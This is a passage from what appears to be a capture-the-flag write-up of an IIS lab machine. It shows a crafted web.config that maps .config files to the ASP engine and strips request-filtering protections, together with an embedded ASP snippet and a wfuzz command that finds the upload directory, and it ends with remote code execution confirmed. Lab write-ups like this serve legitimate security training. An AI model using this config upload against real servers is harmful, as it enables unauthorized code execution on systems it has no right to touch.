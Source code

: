 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<%
Response.write(1+2)
%>
-->
```

![[web_config_3.png]]

Upload it:

![[web_transfer_webconfig.png]]  
![[web_transfer_webconfig_true.png]]

### 3.2 Finding Upload Location

We fuzz upload paths with a custom dictionary:

```bash
cat /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt | grep -i upload > dictionary
wfuzz -c --hc=404 -t 200 -w dictionary http://10.10.10.93/FUZZ
```

![[wfuzz_uploadedfiles.png]]

The directory is `/uploadedFiles/`.

![[web_uploadedfiles.png]]

Accessing `uploadedFiles/web.config` shows output, confirming **RCE**:
